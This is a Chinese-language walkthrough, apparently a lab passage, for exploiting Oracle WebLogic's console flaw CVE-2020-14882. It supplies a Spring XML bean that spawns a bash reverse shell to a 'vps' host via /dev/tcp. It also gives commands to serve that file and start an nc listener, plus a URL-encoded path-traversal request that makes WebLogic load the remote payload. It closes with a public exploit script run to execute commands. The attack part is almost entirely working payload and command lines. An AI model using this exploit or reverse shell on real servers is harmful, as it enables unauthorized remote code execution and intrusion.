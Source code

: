 ### 反弹shell

在vps上创建rce.xml文件，注意更改IP和端口

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>/bin/bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/vps/8888 0>&1]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

vps开启web服务，用于请求访问rce.xml文件

```bash
root@NC:/mnt/f/file/# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

vps开启监听

```bash
root@NC:/mnt/f/file/# nc -lvp 8888
```

weblogic访问http请求，访问成功后页面回显404，shell反弹到nc端口，poc:

```
http://192.168.211.129:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://vps:8000/rce.xml")
```

也可以使用[脚本](https://github.com/GGyao/CVE-2020-14882_ALL)攻击

```bash
F:\file\CVE-2020-14882_ALL-master>python CVE-2020-14882_ALL.py -u http://192.168.211.129:7001 -c "id"                             
  _______      ________    ___   ___ ___   ___        __ _  _   ___   ___ ___
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ | || | / _ \ / _ \__ \
| |     \ \  / /| |__ ______ ) | | | | ) | | | |______| | || || (_) | (_) | ) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |__   _> _ < > _ < / /
| |____   \  /  | |____    / /_| |_| / /_| |_| |      | |  | || (_) | (_) / /_
 \_____|   \/   |______|  |____|\___/____|\___/       |_|  |_| \___/ \___/____|
                                                         Author:GGyao
                                                         Github:https://github.com/GGyao
[+] Command success result:
uid=1000(oracle) gid=1000(oracle) groups=1000(oracle)
```
